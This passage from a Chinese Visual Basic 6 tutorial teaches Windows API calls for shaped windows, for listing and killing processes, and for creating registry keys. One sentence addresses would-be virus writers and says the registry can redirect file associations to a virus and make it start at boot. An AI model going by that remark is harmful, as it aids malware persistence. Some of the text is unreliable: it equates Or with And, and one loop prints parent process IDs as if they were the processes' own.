函数的作用是创建一个椭圆，该椭圆与 X1、Y1 和 X2、Y2 坐标点确定的矩形内切。函数返回值为 Long，执行成功则为区域的句柄，失败则返回零。这个函数在后面会使用到，下一个要介绍的函数是用于设置窗体边沿的。我们可以将一个程序的边沿设置成任意的形状，包括椭圆。

### 5.4.15 SetWindowRgn 函数——设置窗体的形状和区域

该函数可以用于设置窗体的形状和区域。它的 API 函数声明是：

```vb
Declare Function SetWindowRgn Lib "user32" Alias "SetWindowRgn" (ByVal hWnd As Long, ByVal hRgn As Long, ByVal bRedraw As Boolean) As Long
```

对其中的三个参数，说明如下：

| 参数 | 类型及说明 |
|---|---|
| hWnd | Long，将设置形状和区域的窗口的句柄 |
| hRgn | Long，将设置的区域的句柄，一旦设置了该区域，就不能使用或修改该区域句柄，也不要删除它 |
| bRedraw | Boolean，若为 TRUE，则立即重画窗口 |

> 提示：hRgn 参数对应的区域句柄可以使用诸如函数 CreateEllipticRgn 来创建。

下面展示如何使用 CreateEllipticRgn 函数创建一个椭圆的选区，然后使用 SetWindowRgn 函数将窗体的形状设置成椭圆。

新建一个工程，将窗体的 BorderStyle 属性设置成 0-None，如图 5-20 所示。这样窗体就没有边框了。接着把窗体的 BackColor 属性设置成粉红色，当然，任意一种你喜欢的颜色都是可以的。编写下面的代码：

```vb
' 在窗体通用部分声明两个 API 函数
Private Declare Function CreateEllipticRgn Lib "gdi32" (ByVal X1 As Long, ByVal Y1 As Long, ByVal X2 As Long, ByVal Y2 As Long) As Long
Private Declare Function SetWindowRgn Lib "user32" (ByVal hWnd As Long, ByVal hRgn As Long, ByVal bRedraw As Boolean) As Long
Option Explicit    ' 强制变量声明
```

```vb
Private Sub Form_Load()
    Dim MyRgn As Long          ' 变量，用于保存我们创建的椭圆选区
    ' 使用 CreateEllipticRgn 函数创建椭圆选区
    MyRgn = CreateEllipticRgn(0, 0, Me.Width / Screen.TwipsPerPixelX, Me.Height / Screen.TwipsPerPixelY)
    ' 设置窗体的区域为创建的椭圆区域
    SetWindowRgn Me.hWnd, MyRgn, True
End Sub
```

图 5-21 程序运行结果

运行程序，最终结果如图 5-21 所示。可以看到，窗体没有边框，而且形状是一个椭圆。

### 5.4.16 CreatePolygonRgn 函数——创建任意多边形选区

使用 CreatePolygonRgn 函数可以创建一个由任意多个点围成的多边形区域，Windows 会在需要时自动将最后点与第一点相连以封闭多边形。它的 API 函数声明是：

```vb
Declare Function CreatePolygonRgn Lib "gdi32" Alias "CreatePolygonRgn" (lpPoint As POINTAPI, ByVal nCount As Long, ByVal nPolyFillMode As Long) As Long
```

对于 3 个参数说明如下：

| 参数 | 类型及说明 |
|---|---|
| lpPoint | POINTAPI 结构，nCount 个 POINTAPI 结构中的第一个 POINTAPI 结构 |
| nCount | Long，多边形的点数 |
| nPolyFillMode | Long，描述多边形填充模式。可为 ALTERNATE 或 WINDING 常数。ALTERNATE 为交替填充，WINDING 为根据绘图方向填充 |

可以看到，lpPoint 参数是一个 POINTAPI 结构类型，它是自定义的数据类型，我们可以在 API 浏览器中找到对应的结构：

```vb
Public Type POINTAPI
    x As Long
    y As Long
End Type
```

POINTAPI 结构对应于 Windows 的 POINT 结构，在 VB 中定义为 POINTAPI，从而避免与 VB 的 Point 关键字冲突，用于描述一个位置（即屏幕点），与 RECT 结构相同，x 和 y 字段的单位取决于准备使用的对象与 API 函数。

下面示例结合 CreatePolygonRgn 函数和 SetWindowRgn 函数将程序窗体设置成一个菱形（取原来四条边每一边的中点，再依次连接），要将其设置成不规则四边形、五角星等，请参考此简单示例。

新建一个工程，同样将 BorderStyle 属性设置成 0-None。然后将背景颜色（BackColor）设置成一个较容易观察的颜色（示例为粉红色）。编写下面的代码：

```vb
' 声明 API 函数
Private Declare Function CreatePolygonRgn Lib "gdi32" (lpPoint As POINTAPI, ByVal nCount As Long, ByVal nPolyFillMode As Long) As Long
Private Declare Function SetWindowRgn Lib "user32" (ByVal hWnd As Long, ByVal hRgn As Long, ByVal bRedraw As Boolean) As Long
Option Explicit    ' 强制变量声明
```

```vb
' 定义结构类型 POINTAPI
Private Type POINTAPI
    x As Long
    y As Long
End Type

Private Sub Form_Load()
    Dim MyPoint(1 To 4) As POINTAPI          ' 四个点，保存在一个数组 MyPoint 中
    ' 第一个点的坐标
    MyPoint(1).x = Me.Width / Screen.TwipsPerPixelX / 2
    MyPoint(1).y = 0
    ' 第二个点的坐标
    MyPoint(2).x = 0
    MyPoint(2).y = Me.Height / Screen.TwipsPerPixelY / 2
    ' 第三个点的坐标
    MyPoint(3).x = Me.Width / Screen.TwipsPerPixelX / 2
    MyPoint(3).y = Me.Height / Screen.TwipsPerPixelY
    ' 第四个点的坐标
    MyPoint(4).x = Me.Width / Screen.TwipsPerPixelX
    MyPoint(4).y = Me.Height / Screen.TwipsPerPixelY / 2

    Dim MyRgn As Long                         ' 变量，保存创建选区的句柄
    MyRgn = CreatePolygonRgn(MyPoint(1), 4, 2)
    SetWindowRgn Me.hWnd, MyRgn, True         ' 设置窗体的区域为选区 MyRgn
End Sub
```

图5-22 程序运行结果

运行上面的代码，发现窗体变成了一个菱形，如图5-22所示。这里笔者只选取了4个点，如果创建拥有更多点的选区，则可以创建更复杂的图形，例如五角星的形状。

> 注意：CreatePolygonRgn 函数中各个点是以像素为单位的，而 Height 属性和 Width 属性是以缇（Twips）为单位的。所以我们需要将 Width 属性和 Height 属性的值再除以 TwipsPerPixel（缇/像素）。

切记不要直接以 Height 和 Width 属性的值来创建选区，那么选区的大小会变得很大。

## 5.5 利用 API 函数枚举系统进程或结束进程

枚举系统进程需要使用到一系列 API 函数，笔者这里将它们结合起来介绍，方便读者朋友记忆掌握。下面先列出需要使用到的函数，然后一一进行介绍：

| API函数名 | 功能简介 |
|---|---|
| CreateToolhelp32Snapshot | 用于获取线程快照的句柄 |
| Process32First | 查找第一个进程 |
| Process32Next | 查找下一个进程 |
| CloseHandle | 关闭指定的句柄 |
| OpenProcess | 打开进程句柄 |
| TerminateProcess | 结束指定的进程 |

### 5.5.1 CreateToolhelp32Snapshot 函数——获取线程快照句柄

该函数可以为指定的进程、进程使用的堆（HEAP）、模块（MODULE）、线程（THREAD）建立一个快照（snapshot）。很遗憾地告诉读者朋友，这个 API 函数在 API 浏览器中无法查找到。但是，你可以通过 Google 或者百度找到它的函数声明。它的 API 函数声明为：

```vb
Private Declare Function CreateToolhelp32Snapshot Lib "kernel32" (ByVal dwFlags As Long, ByVal th32ProcessID As Long) As Long
```

对于函数中的两个参数，参数 dwFlags 指定快照中包含的系统内容，这个参数能够使用下列数值（变量）中的一个：

- TH32CS_INHERIT —— 声明快照句柄是可继承的。
- TH32CS_SNAPALL —— 在快照中包含系统中所有的进程和线程。
- TH32CS_SNAPHEAPLIST —— 在快照中包含在 th32ProcessID 中指定的进程的所有堆。
- TH32CS_SNAPMODULE —— 在快照中包含在 th32ProcessID 中指定的进程的所有模块。
- TH32CS_SNAPPROCESS —— 在快照中包含系统中所有的进程。
- TH32CS_SNAPTHREAD —— 在快照中包含系统中所有的线程。

这些常数的值如下所示：

```vb
Const TH32CS_INHERIT = &H80000000
Const TH32CS_SNAPHEAPLIST = &H1
Const TH32CS_SNAPPROCESS = &H2
Const TH32CS_SNAPTHREAD = &H4
Const TH32CS_SNAPMODULE = &H8
Const TH32CS_SNAPALL = (TH32CS_SNAPHEAPLIST Or TH32CS_SNAPPROCESS Or TH32CS_SNAPTHREAD Or TH32CS_SNAPMODULE)
```

当然，这些常数值并不要求去记忆，需要的时候查询即可。

> 注意：TH32CS_SNAPALL 常数的值是其他几个常数用 Or 连接起来所得的最终值，在对常数进行运算时，Or 相当于逻辑运算中的 And，也就是说，它包括了其他所有值的属性。

参数 th32ProcessID 指定将要快照的进程 ID。如果该参数为 0，表示快照当前进程。该参数只有在设置 dwFlags 参数为 TH32CS_SNAPHEAPLIST、TH32CS_SNAPMODULE 及 TH32CS_SNAPALL 后才有效，在其他情况下该参数被忽略，所有的进程都会被快照。

若调用成功，返回快照的句柄；若调用失败，则返回 INVALID_HANDLE_VALUE。下面示例一下使用函数：

```vb
' 声明 API 函数
Private Declare Function CreateToolhelp32Snapshot Lib "kernel32" (ByVal dwFlags As Long, ByVal th32ProcessID As Long) As Long
' 定义常数
Const TH32CS_SNAPPROCESS = &H2

Private Sub Form_Load()
    Dim MySnapshot As Long
    MySnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0)
End Sub
```

这个函数使用非常简单，然而因为无法在 API 浏览器中查找到对应的声明和常数，会增加一些麻烦。到此，读者朋友们可能还无法理解获取系统进程快照句柄的作用，但在介绍完后面的函数以后，你会知道它的用处。

### 5.5.2 Process32First 函数——获取快照中的第一个进程

Process32First 是一个进程获取函数，当我们利用函数 CreateToolhelp32Snapshot 获得当前系统进程的快照后，就可以利用 Process32First 函数来获得第一个进程的句柄。请读者朋友注意，这里返回的是第一个进程的句柄。该函数的 API 声明是：

```vb
Private Declare Function Process32First Lib "kernel32" (ByVal hSnapshot As Long, lppe As PROCESSENTRY32) As Long
```

对函数中的两个参数，参数 `hSnapshot` 为一个系统进程快照的句柄，可以使用 `CreateToolhelp32Snapshot` 函数来获取。参数 `lppe` 是一个自定义类型变量，为 `PROCESSENTRY32` 结构，在 `PROCESSENTRY32` 结构中保存了进程的各项信息。下面我们来看看 `PROCESSENTRY32` 结构的基本形式：

```vb
Private Type PROCESSENTRY32
    dwSize As Long                 ' 设定结构的大小
    cntUsage As Long               ' 此进程的引用计数，已不再使用，可设为 0
    th32ProcessID As Long          ' 进程的 ID，也就是我们通常所说的进程 PID 值
    th32DefaultHeapID As Long      ' 进程默认堆 ID，已不再使用，可设置成 0
    th32ModuleID As Long           ' 进程模块 ID，已不再使用，可设为 0
    cntThreads As Long             ' 此进程开启的线程计数
    th32ParentProcessID As Long    ' 父进程的 ID
    pcPriClassBase As Long         ' 线程优先权
    dwFlags As Long                ' 已不再使用，可设置为 0
    szExeFile As String * 1024     ' 进程的可执行文件名称
End Type
```

读者朋友们可以看到，很多字段已经不再使用了，我们设置成 0 即可。这里介绍了所有的字段，虽然有些是不用的字段，但是读者朋友在使用的时候还是不要删除这些没使用的字段，否则可能会出现错误。

对于上面的字段 `szExeFile`，笔者再做一些说明。它表示的是进程的可执行文件名称，但是它返回的并不是进程文件的路径，仅仅是文件名而已。例如运行 `D:\1.exe`，它得到的结果将只是 `1.exe`。如果需要获取进程的可执行文件完整路径，应该使用函数 `Module32First`，这个在后面我们会介绍到的。

当函数调用成功时，返回一个非 0 值；调用失败，则返回 0。

下面来示例返回进程快照中的第一个进程的基本信息，要结合使用 `CreateToolhelp32Snapshot` 函数和 `Process32First` 函数。

新建一个工程，在窗体中绘制一个 `ListBox` 列表框（`List1`），然后编写下面的代码：

```vb
' 在窗体通用部分声明 API 函数
Private Declare Function CreateToolhelp32Snapshot Lib "kernel32" (ByVal dwFlags As Long, ByVal th32ProcessID As Long) As Long

' 声明 API 函数
Private Declare Function Process32First Lib "kernel32" (ByVal hSnapshot As Long, lppe As PROCESSENTRY32) As Long

' 定义常数，快照所有的进程
Const TH32CS_SNAPPROCESS = &H2

' 定义结构，保存进程信息
Private Type PROCESSENTRY32
    dwSize As Long                 ' 设定结构的大小
    cntUsage As Long               ' 此进程的引用计数，已不再使用，可设为 0
    th32ProcessID As Long          ' 进程的 ID，也就是我们通常所说的进程 PID 值
    th32DefaultHeapID As Long      ' 进程默认堆 ID，已不再使用，可设置成 0
    th32ModuleID As Long           ' 进程模块 ID，已不再使用，可设为 0
    cntThreads As Long             ' 此进程开启的线程计数
    th32ParentProcessID As Long    ' 父进程的 ID
    pcPriClassBase As Long
    dwFlags As Long
    szExeFile As String * 1024
End Type

Private Sub Form_Load()
    Dim MySnapshot As Long
    MySnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0)
    Dim ProcessInfor As PROCESSENTRY32
    ProcessInfor.dwSize = Len(ProcessInfor)
    ' 如果返回成功，则把 PID 和文件名添加到 List1 中
    If Process32First(MySnapshot, ProcessInfor) <> 0 Then
        List1.AddItem "第一个进程的PID是 " & ProcessInfor.th32ProcessID
        List1.AddItem ""
        List1.AddItem "第一个进程的文件名是 " & ProcessInfor.szExeFile
    End If
End Sub
```

图5-23 运行结果

图5-24 任务管理器中的进程列表

这里只返回了第一个进程的信息，运行后的结果如图5-23所示。

可以看出，第一个进程的 PID 是 0，它的进程文件名是 [System Process]，这与任务管理器中的第一个进程是对应的，如图5-24所示。

### 5.5.3 Process32Next 函数——获取快照中的下一个进程

我们可以使用 Process32Next 函数返回进程快照中下一个进程的信息。在使用 CreateToolhelp32Snapshot 函数返回了进程快照之后，可以使用 Process32First 函数和 Process32Next 函数枚举出系统的所有进程。它的 API 函数声明为：

```vb
Private Declare Function Process32Next Lib "kernel32" (ByVal hSnapshot As Long, lppe As PROCESSENTRY32) As Long
```

它的参数设置与 Process32First 函数完全一样，这里不再做详细说明。参数 hSnapshot 对应系统进程快照，而参数 lppe 对应 PROCESSENTRY32 结构。

### 5.5.4 CloseHandle 函数——关闭快照句柄

在示例之前，补充介绍一个函数 CloseHandle，它的作用是关闭快照的句柄。在获取了系统快照句柄之后，若已使用完毕，则应该将其关闭。其 API 函数声明为：

```vb
Private Declare Function CloseHandle Lib "kernel32" (ByVal hObject As Long) As Long
```

参数 hObject 指的是我们需要关闭的对象的句柄。使用 `CloseHandle MySnapshot` 可以关闭进程快照的句柄，其中 MySnapshot 为进程快照的句柄。

### 5.5.5 枚举系统进程示例

前面介绍完了需要使用到的几个 API 函数，现在来示例结合几个函数的使用，枚举系统中的所有进程的信息。

新建一个工程，绘制一个 ListBox 控件（List1）。编写下面的代码：

```vb
' 声明 API 函数，创建系统进程快照函数
Private Declare Function CreateToolhelp32Snapshot Lib "kernel32" (ByVal dwFlags As Long, ByVal th32ProcessID As Long) As Long

' 声明 API 函数，返回第一个进程的信息
Private Declare Function Process32First Lib "kernel32" (ByVal hSnapshot As Long, lppe As PROCESSENTRY32) As Long

' 声明 API 函数，返回下一个进程的信息
Private Declare Function Process32Next Lib "kernel32" (ByVal hSnapshot As Long, lppe As PROCESSENTRY32) As Long

' 声明 API 函数，关闭系统进程快照
Private Declare Function CloseHandle Lib "kernel32" (ByVal hObject As Long) As Long

' 定义常数，快照中包括所有进程的信息
Const TH32CS_SNAPPROCESS = &H2

' 定义结构类型，在该结构中包括了进程的各项信息
Private Type PROCESSENTRY32
    dwSize As Long               ' 设定结构的大小
    cntUsage As Long             ' 此进程的引用计数，已不再使用，可设为 0
    th32ProcessID As Long        ' 进程的 ID，也就是我们通常所说的进程 PID 值
    th32DefaultHeapID As Long    ' 进程默认堆 ID，已不再使用，可设置成 0
    th32ModuleID As Long         ' 进程模块 ID，已不再使用，可设为 0
    cntThreads As Long           ' 此进程开启的线程计数
    th32ParentProcessID As Long  ' 父进程的 ID
    pcPriClassBase As Long       ' 线程优先权
    dwFlags As Long              ' 已不再使用，可设置为 0
    szExeFile As String * 1024   ' 进程的可执行文件名称
End Type

Private Sub Form_Load()
    Dim MySnapshot As Long                       ' 变量，保存进程快照的句柄
    MySnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0)  ' 返回系统进程快照
    Dim ProcessInfor As PROCESSENTRY32          ' 声明一个结构变量
    ProcessInfor.dwSize = Len(ProcessInfor)     ' 设定结构的大小

    If Process32First(MySnapshot, ProcessInfor) <> 0 Then   ' 如果返回第一个进程成功
        ' 添加第一个进程的信息到 List1 中
        List1.AddItem ProcessInfor.th32ProcessID & "    " & ProcessInfor.szExeFile

        ' 循环添加后续进程的信息到 List1 中
        While Process32Next(MySnapshot, ProcessInfor) <> 0
            List1.AddItem ProcessInfor.th32ParentProcessID & "    " & ProcessInfor.szExeFile
        Wend
    End If
End Sub
```

使用上面的代码可以获取系统所有的进程对应的 PID 和文件名，运行结果如图5-25所示。

以上代码中，只要 `Process32First(MySnapshot, ProcessInfor)` 返回的值不为 0，则函数调用成功，可以把进程的信息添加到列表中，否则返回 0，表明调用失败，已不存在下一个进程了。

上面介绍了枚举系统进程的方法，接着讲一下怎样结束一个选定的进程，也就是从内存中消除一个进程。

图5-25 程序运行结果

### 5.5.6 OpenProcess 函数——打开进程并返回进程句柄

OpenProcess 函数用于打开进程并返回对应的句柄，如果要关闭一个进程，在获得其 PID在得到进程 ID（PID）的基础上，还必须得到句柄。其 API 函数声明为：

```vb
Private Declare Function OpenProcess Lib "kernel32" (ByVal dwDesiredAccess As Long, ByVal bInheritHandle As Long, ByVal dwAppProcessId As Long) As Long
```

有 3 个参数。参数 `dwDesiredAccess` 指定这个句柄要求的访问方法，在 API 浏览器中加载 `WINAPI32.TXT` 文件，查找以 `PROCESS` 开头的一个或多个常数。（很遗憾地告诉读者朋友，在 VB6 附带的 `WinAPI32.txt` 文件中并未包含此参数的各项设置常数，笔者是在微软的网站上查询到的，翻译水平有限，不足之处烦请参考原文资料）。它可以被设置成下面的几个值，读者朋友们只需要大概了解作用即可，不必深究：

- 1. `PROCESS_ALL_ACCESS = &H1F0FFF`  
  指定为进程对象所有可用的访问方法，也就是完全访问。  
  (Specifies all possible access flags for the process object.)
- 2. `PROCESS_CREATE_THREAD = &H2`  
  允许在 `CreateRemoteThread` 函数中使用进程的句柄而在该进程中创建一个线程。  
  (Enables using the process handle in the CreateRemoteThread function to create a thread in the process.)
- 3. `PROCESS_DUP_HANDLE = &H40`  
  允许使用进程的句柄作为源进程或目标进程，在 `DuplicateHandle` 函数中实现复制一个句柄。  
  (Enables using the process handle as either the source or target process in the DuplicateHandle function to duplicate a handle.)
- 4. `PROCESS_QUERY_INFORMATION = &H400`  
  允许在 `GetExitCodeProcess` 函数和 `GetPriorityClass` 函数中使用进程的句柄来读取进程对象的信息。  
  (Enables using the process handle in the GetExitCodeProcess and GetPriorityClass functions to read information from the process object.)
- 5. `PROCESS_SET_INFORMATION = &H200`  
  允许在 `SetPriorityClass` 函数中使用进程的句柄以设置进程的优先级。  
  (Enables using the process handle in the SetPriorityClass function to set the priority class of the process.)
- 6. `PROCESS_TERMINATE = &H1`  
  允许在 `TerminateProcess` 函数中使用进程的句柄以实现关闭进程。  
  (Enables using the process handle in the TerminateProcess function to terminate the process.)
- 7. `PROCESS_VM_OPERATION = &H8`  
  允许在 `VirtualProtectEx` 函数和 `WriteProcessMemory` 函数中使用进程的句柄以修改进程的虚拟内存。  
  (Enables using the process handle in the VirtualProtectEx and WriteProcessMemory functions to modify the virtual memory of the process.)
- 8. `PROCESS_VM_READ = &H10`  
  允许在 `ReadProcessMemory` 函数中使用进程的句柄来对进程的虚拟内存进行读操作。  
  (Enables using the process handle in the ReadProcessMemory function to read from the virtual memory of the process.)
- 9. `PROCESS_VM_WRITE = &H20`  
  允许在 `WriteProcessMemory` 函数中使用进程的句柄来对进程的虚拟内存进行写操作。  
  (Enables using the process handle in the WriteProcessMemory function to write to the virtual memory of the process.)
- 10. `SYNCHRONIZE = &H100000`  
  允许在任意一个等待函数中使用进程句柄以等待进程结束。  
  (Enables using the process handle in any of the wait functions to wait for the process to terminate.)

参考链接：http://support.microsoft.com/kb/172273/zh-cn

在使用 `OpenProcess` 函数返回进程的句柄时，请设置该参数的值为 `PROCESS_QUERY_INFORMATION Or PROCESS_VM_READ`，也就是既可以查询进程的信息，也可以对其虚拟内存进行读操作，`Or` 等同于逻辑运算中的“或”。

参数 `bInheritHandle` 是 Long 类型。如果句柄能够由子进程继承，则设置为 `TRUE`，否则设置成 `False`。参数 `dwProcessId` 是 Long 类型，对应的是进程的 PID 值。PID 值可以唯一地标识进程。如果函数返回值不为空，则表明打开进程成功，并成功返回句柄。

下面示例打开 ID 为 6240 的进程，并返回进程的句柄：

```vb
Dim ProcessHwnd As Long
ProcessHwnd = OpenProcess(PROCESS_QUERY_INFORMATION Or PROCESS_VM_READ, False, 6240)
```

### 5.5.7 TerminateProcess 函数——关闭指定进程

使用 `TerminateProcess` 函数可以关闭指定的进程。它的 API 函数声明为：

```vb
Private Declare Function TerminateProcess Lib "kernel32" (ByVal ApphProcess As Long, ByVal uExitCode As Long) As Long
```

对于其中的两个参数，说明如下：

| 参数 | 类型及说明 |
|---|---|
| hProcess | Long。指定要中断的一个进程的句柄 |
| uExitCode | Long。进程的一个退出代码，我们设置成 0 |

这里参数 `hProcess` 所指的句柄应该使用函数 `OpenProcess` 来返回。返回值是 Long，非零表示成功，零表示失败。下面示例结束 PID 为 6240 的进程，使用下面的代码：

```vb
' 在窗体通用部分声明 API 函数，打开指定进程并返回句柄
Private Declare Function OpenProcess Lib "kernel32" (ByVal dwDesiredAccess As Long, ByVal bInheritHandle As Long, ByVal dwAppProcessId As Long) As Long

' 该函数用于停止指定的进程
Private Declare Function TerminateProcess Lib "kernel32" (ByVal ApphProcess As Long, ByVal uExitCode As Long) As Long

Private Sub Form_Load()
    Dim ProcessHwnd As Long
    ProcessHwnd = OpenProcess(1&, -1&, ByVal 6240)
    If ProcessHwnd <> 0 Then
        Dim Ret As Long
        Ret = TerminateProcess(ByVal ProcessHwnd, 0&)
        If Ret <> 0 Then
            MsgBox "成功结束PID为6240的进程"
        Else
            MsgBox "进程结束失败!"
        End If
    End If
End Sub
```

请读者朋友们注意，上面 `OpenProcess` 函数中，笔者使用了常数值，而没有对常数名进行定义。`OpenProcess(1&, -1&, ByVal 6240)` 最终的效果跟使用常数名称的结果是一样的。

### 5.5.8 小结

在本节中，我们介绍了与枚举进程和结束进程相关的 API 函数，希望读者朋友们可以熟练掌握。限于篇幅，没有继续介绍怎样得到进程可执行文件的完整路径，它涉及到进程模块的相关 API 函数。如果读者朋友们对此非常有兴趣，请了解这两个函数的用法：`EnumProcessModules` 函数和 `GetModuleFileNameExA` 函数。读者朋友们需要认识到的是，进程的可执行文件完整路径是保存在进程的第一个模块中的。

参考相关资料，百度和 Google 都是很重要的工具。

## 5.6 利用 API 函数读写注册表

在 Windows 操作系统中，注册表可谓一个极为关键的数据库。在这个数据库中，保存了系统和应用程序的各项配置信息，例如：注册表中保存了部分开机启动项的信息、IE 的配置信息、软件的安装和卸载信息等。熟悉掌握对注册表的操作，我们可以实现拥有更多功能的程序。这一小节我们介绍怎样使用 API 函数来对注册表进行读写操作。


图 5-26 注册表编辑器视图

你想知道怎样获取开机启动项吗？你想获取系统中的软件列表吗？API 函数可以帮助你实现这一切。当然，掌握好注册表，你能做的远不止这一些。因为注册表可以看成操作系统的一个“肺”，操作系统的运转对它有极大的依赖。

对于想要尝试编写病毒的朋友，注册表也绝对是非常核心的东西，因为我们可以利用注册表来修改文件关联（关联到病毒文件），把病毒设置成开机启动等。

### 5.6.1 简介注册表

打开 Cmd 命令行，输入“RegEdit”并回车（或在开始菜单的运行里面输入 RegEdit），可以打开注册表编辑器，其视图如图 5-26 所示。

图片中，左侧目前可以看到的是 5 个主键（主键是所保存信息大的分类），而右侧为项的值。这 5 个主键保存着不同的信息，是不同的分类：


图 5-27 双击展开主键下面的子键

- 1. **HKEY_CLASSES_ROOT 主键**：主要记录 Windows 操作系统中所有数据文件的格式和关联信息（文件后缀与对应应用程序）。其子键可分为已注册文件扩展名（前有“.”）和文件类型相关信息两类。
- 2. **HKEY_CURRENT_USER 主键**：记录当前用户的用户配置文件信息，不同用户登录时会自动使用各自的个性化设置。
- 3. **HKEY_LOCAL_MACHINE 主键**：记录当前计算机的配置数据，包括硬件与软件设置，是系统级且非常重要的主键。
- 4. **HKEY_USERS 主键**：记录默认用户（Default 子键）和所有以前登录过用户的信息。
- 5. **HKEY_CURRENT_CONFIG 主键**：存放计算机当前设置，如显示器、打印机等外设的设置信息。

以上我们介绍了 5 个主键的作用，在主键下面还有子键，双击一个主键可以展开或收起一个主键。而每一个子键还可以有自己的子键，当然，子键下面也可以保存项的值（在窗口右侧看到）。项的值如图 5-28 所示，它包括了 3 个字段——名称、类型、数据。

双击一个项的名称，可以查看并修改它的值，如图 5-29 所示。

通过 API 函数同样可以实现读取和写入注册表键值。对于子键，我们可以使用分隔符“\\”来分隔，例如，我们可以表示 `HKEY_CURRENT_CONFIG` 主键下的子键 `SoftWare` 为 `HKEY_CURRENT_CONFIG\\SoftWare`。


在注册表中，项目的数据类型可以为以下四种：

| 显示类型（在编辑器中） | 数据类型 | 说明 |
|---|---|---|
| REG_SZ | 字符串 | 文本字符串 |
| REG_MULTI_SZ | 多字符串 | 含有多个文本值的字符串 |
| REG_BINARY | 二进制数 | 二进制值，以十六进制显示 |
| REG_DWORD | 双字 | 一个 32 位的二进制值，显示为 8 位的十六进制值 |


我们对注册表的介绍就这么多吧，如果需要更深入的了解，请读者朋友们参考相关资料。如果要对注册表进行操作，我们大致需要了解以下的几个 API 函数：

- 1. 对子键进行操作的 API 函数：`RegCreateKey`、`RegDeleteKey`、`RegEnumKey`
- 2. 对项进行操作的 API 函数：`RegEnumValue`、`RegOpenKey`、`RegQueryValue`、`RegDeleteValue`、`RegQueryValueEx`、`RegSetValueEx`、`RegCloseKey`

下面我们对这些函数依次进行介绍，大家不要觉得麻烦，函数看上去好像太多，但在了解其具体用法之后，就不会觉得很复杂了。大家一定要有耐心才行。坚持把这部分内容看完，你对注册表就可以“为所欲为”了。

### 5.6.2 RegCreateKey 函数——创建一个子键

该函数用于在指定的项下创建一个新项。如指定的项已经存在，那么函数会打开现有的项。它的 API 函数声明为：

```vb
Declare Function RegCreateKey Lib "advapi32.dll" Alias "RegCreateKeyA" (ByVal hKey As Long, ByVal lpSubKey As String, phkResult As Long) As Long
```

函数有 3 个参数，说明如下：

| 参数 | 类型及说明 |
|---|---|
| hKey | Long，已打开的子键的句柄，或者一个标准主键名 |
| lpSubKey | String，欲创建的新子键。可同时创建多个子键，只需用反斜杠将它们分隔开即可。例如 `level1\\level2\\newkey` |
| phkResult | Long，指定一个变量，用于装载新子键的句柄 |

请注意这里 `hKey` 可以是一个已打开子键的句柄，或是一个标准的主键名。而标准的主键名，也必须对应事先定义的常数才行。这些常数，可以在 API 浏览器中以 “Hkey” 开头查找到。如果创建子键成功，那么参数 `phkResult` 得到的值将不为 0。函数的返回值是 Long，零（`ERROR_SUCCESS`）表示成功，其他任何值都代表一个错误代码。

下面示例在 `HKEY_CURRENT_CONFIG` 主键下创建一个 `Nohack` 的子键，可以使用下面的语句：

```vb
' 在窗体通用部分声明 API 函数
Private Declare Function RegCreateKey Lib "advapi32.dll" Alias "RegCreateKeyA" (ByVal hKey As Long, ByVal lpSubKey As String, phkResult As Long) As Long

' 定义常数，指定 HKEY_CURRENT_CONFIG 主键
Private Const HKEY_CURRENT_CONFIG = &H80000005

Private Sub Form_Load()
    Dim RegHwnd As Long            ' 变量，保存所创建的子键的句柄
    ' 如果创建成功，则给出提示
    If RegCreateKey(HKEY_CURRENT_CONFIG, "Nohack", RegHwnd) = 0 Then
        MsgBox "新建子键成功!"
    End If
End Sub
```


图 5-30 程序运行结果

运行如图 5-30 所示，子键创建成功。

上面的代码中，使用的是主键常数，而如果我们要在一个子键下面再新建子键，就必须使用 `RegOpenKey` 函数来返回子键的句柄了。下面我们介绍 `RegOpenKey` 函数。

### 5.6.3 RegOpenKey 函数——打开子键并返回句柄

`RegOpenKey` 函数用于打开注册表中的一个子键，并返回句柄。它的 API 函数声明为：

```vb
Declare Function RegOpenKey Lib "advapi32.dll" Alias "RegOpenKeyA" (ByVal hKey As Long, ByVal lpSubKey As String, phkResult As Long) As Long
```

对于其中的 3 个参数，说明如下：

| 参数 | 类型及说明 |
|---|---|
| hKey | Long，一个已打开子键的句柄，或指定一个标准主键名 |
| lpSubKey | String，要打开的子键名 |
| phkResult | Long，指定一个变量，用于装载（保存）所打开注册表子键的一个句柄 |

函数的返回值为 Long，零（`ERROR_SUCCESS`）表示成功，其他任何值都代表一个错误代码。

由于这个函数可以打开子键并返回子键的句柄，我们可以使用它结合 `RegCreateKey` 函数在任意一个子键下创建其他的子键。例如，使用 `RegOpenKey` 函数打开 `HKEY_CURRENT_CONFIG\Nohack` 子键并返回句柄，然后在这个子键下，再创建一个 `Lijiejie` 的子键。请看下面的代码：

```vb
' 在窗体通用部分声明 API 函数声明
Private Declare Function RegOpenKey Lib "advapi32.dll" Alias "RegOpenKeyA" (ByVal hKey As Long, ByVal lpSubKey As String, phkResult As Long) As Long
Private Declare Function RegCreateKey Lib "advapi32.dll" Alias "RegCreateKeyA" (ByVal hKey As Long, ByVal lpSubKey As String, phkResult As Long) As Long

' 定义主键常数
Private Const HKEY_CURRENT_CONFIG = &H80000005

Private Sub Form_Load()
    Dim RegHwnd As Long            ' 变量，保存返回的子键句柄
    RegOpenKey HKEY_CURRENT_CONFIG, "Nohack", RegHwnd
    ' 在 Nohack 子键下再创建一个子键 Lijiejie
    If RegCreateKey(RegHwnd, "Lijiejie", RegHwnd) = 0 Then
        MsgBox "新建子键Lijiejie成功!"
    End If
End Sub
```

运行上面的代码，如图 5-31 所示。

### 5.6.4 RegDeleteKey 函数——删除一个子键

RegDeleteKey 函数用于删除一个子键。它的 API 函数声明为：

```vb
Declare Function RegDeleteKey Lib "advapi32.dll" Alias "RegDeleteKeyA" (ByVal hKey As Long, ByVal lpSubKey As String) As Long
```

图 5-31 Lijiejie 子键创建成功

函数有 2 个参数：

| 参数 | 类型及说明 |
|---|---|
| hKey | Long，一个已打开子键的句柄，或者标准主键名之一 |
| lpSubKey | String，要删除子键的名字。这个子键下面的所有子键也会被删除 |

返回值是 Long，零（ERROR_SUCCESS）表示成功，其他任何值都代表一个错误代码。下面示例删除 HKEY_CURRENT_CONFIG\Nohack 下面的 Lijiejie 子键，首先必须以 RegOpenKey 函数来获取 HKEY_CURRENT_CONFIG\Nohack 子键的句柄：

```vb
' 在窗体通用部分声明 API 函数
